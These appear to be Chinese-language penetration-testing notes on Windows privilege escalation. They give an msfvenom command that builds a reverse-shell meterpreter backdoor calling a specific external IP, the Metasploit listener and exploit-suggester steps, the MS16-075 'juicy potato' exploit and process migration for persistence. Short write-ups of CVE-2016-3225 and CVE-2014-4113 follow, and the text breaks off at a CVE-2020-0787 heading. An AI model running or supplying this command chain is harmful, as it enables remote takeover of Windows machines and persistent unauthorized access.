 ### msf查询漏洞提权

```
#Web&Windows-MSF全自动-筛选&探针&利用
1、生成反弹后门
msfvenom -p windows/meterpreter/reverse_tcp LHOST=106.14.195.29 LPORT=3333 -f exe -o msf.exe
2、配置监听会话
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3333
exploit
2.1、筛选EXP模块
use post/windows/gather/enum_patches（半自动：根据漏洞编号找出系统中安装的补丁）
use post/multi/recon/local_exploit_suggester（全自动：快速识别系统中可能被利用的漏洞）
set showdescription true
3、利用EXP溢出提权
background
use exploit/windows/local/ms16_075_reflection_juicy
set session 1
exploit
```

维持权限 系统是x64的 把后门迁移到别的进程 `ps` 列出进程号 `migrate 2744` 进程中

### windows常用漏洞提权

#### CVE-2016-3225(MS16-075)

**漏洞描述**： 当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞。成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。 若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的 应用程序，从而控制受影响的系统。此更新通过更正 Windows 服务器消息块 (SMB) 服务器处理凭据转 发请求的方式来修复此漏洞。 

注：烂土豆(Rotten Potato)提权是一个本地提权，是针对本地用户的，不能用于域用户

影响版本 https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2016/ms16-075

漏洞复现  https://github.com/itm4n/PrintSpoofer

```
JuicyPotato_x64.exe -a whoami
```

#### CVE-2014-4113

**漏洞描述** ：Microsoft Windows下的 win32k.sys是Windows子系统的内核部分，是一个内核模式设备驱动程序，它 包含有窗口管理器、后者控制窗口显示和管理屏幕输出等。如果Windows内核模式驱动程序不正确地处 理内存中的对象，则存在一个特权提升漏洞。成功利用此漏洞的攻击者可以运行内核模式中的任意代 码。攻击者随后可安装程序；查看、更改或删除数据；或者创建拥有完全管理权限的新帐户

影响版本：该漏洞影响所有Windows x64，包括Windows 7 和 Windows Server 2008 R2 及以下版本

漏洞复现：

上传编译好的提权exp 执行即可获取系统权限

#### CVE-2020-0787
